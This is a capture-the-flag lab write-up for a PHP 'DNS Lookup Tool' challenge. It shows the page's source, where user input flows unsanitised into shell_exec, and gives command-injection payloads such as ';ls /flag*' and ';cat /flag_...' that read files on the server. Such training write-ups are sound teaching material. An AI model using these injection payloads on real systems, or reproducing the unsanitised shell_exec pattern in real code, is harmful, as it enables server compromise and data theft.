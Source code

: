 ```yaml
---
title: Simple Web 0x09(Lab - DNS Lookup Tool)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x09(Lab - DNS Lookup Tool)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8300/

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | Baby</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre><?= shell_exec("host '" . $_POST['name'] . "';") ?></pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a id="magic">Magic</a> | <a href="/?source">Source Code</a>
                </div>
                <article class="message is-link is-hidden is-size-4" id="hint">
                    <div class="message-body is-family-monospace">
                        host '<span class="has-text-danger" id="command"></span>';
                    </div>
                </article>
            </div>
        </div>
    </section>

    <script>
        magic.onclick = () => hint.classList.toggle("is-hidden");
        window.onload = hostname.oninput = () => command.textContent = hostname.value;
    </script>
</body>

</html> 
```
:::

## Exploit
1. According to the source code, seems there's no any protection.
2. `shell_exec`
It used `shell_exec` to parse input string.
`shell_exec("host '" . $_POST['name'] . "';")`
`shell_exec("host '" . ';ls /flag*' . "';")`→`host '';ls /flag*'';`
![](https://i.imgur.com/6rCN8gy.png)
↓
`shell_exec("host '" . ';cat /flag_44ebd3936a907d59'. "';")`
* Note that, you can use `psysh` or `php -a` in Linux with interactive mode to try the payload
3. Then we got flag!!!


## Reference
[PHP system()、exec()、shell_exec() 的 差異](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)